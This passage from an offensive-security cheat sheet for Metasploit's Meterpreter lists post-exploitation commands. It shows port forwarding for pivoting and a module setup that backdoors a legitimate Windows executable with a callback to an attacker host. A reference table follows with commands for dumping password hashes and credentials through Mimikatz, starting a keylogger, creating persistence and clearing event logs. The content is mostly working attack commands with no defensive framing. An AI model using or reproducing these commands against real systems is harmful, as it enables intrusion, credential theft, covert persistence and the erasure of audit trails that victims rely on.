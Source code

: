 ### Port Forwarding

```bash
# Forward remote port to local
portfwd add -l 3389 -p 3389 -r 192.168.1.10

# Reverse port forward (pivot)
portfwd add -R -l 8080 -p 80 -L 192.168.1.5
```

### Backdooring Files

```bash
# Backdoor executable
use post/windows/manage/backdoor_inject
set SESSION 1
set LHOST 192.168.1.5
set LPORT 5555
set EXE_PATH C:\\path\\to\\legit.exe
run
```

## Quick Reference: Common Commands

| Category | Command | Description |
|----------|---------|-------------|
| **Information Gathering** | `sysinfo` | System information |
|  | `getuid` | Current user |
|  | `ps` | Process list |
| **File Operations** | `download file` | Download from target |
|  | `upload file` | Upload to target |
|  | `search -f *.txt` | Find files |
| **Privilege Escalation** | `getsystem` | Attempt to get SYSTEM |
|  | `run post/multi/recon/local_exploit_suggester` | Find privilege escalation vectors |
| **Credential Access** | `hashdump` | Dump password hashes |
|  | `load kiwi` | Load Mimikatz extension |
|  | `creds_all` | Dump all credentials |
| **Lateral Movement** | `run autoroute` | Set up routing |
|  | `portfwd` | Port forwarding |
| **Persistence** | `run persistence` | Create persistence |
| **Collection** | `screenshot` | Capture screen |
|  | `keyscan_start` | Start keylogger |
| **Cleanup** | `clearev` | Clear event logs |


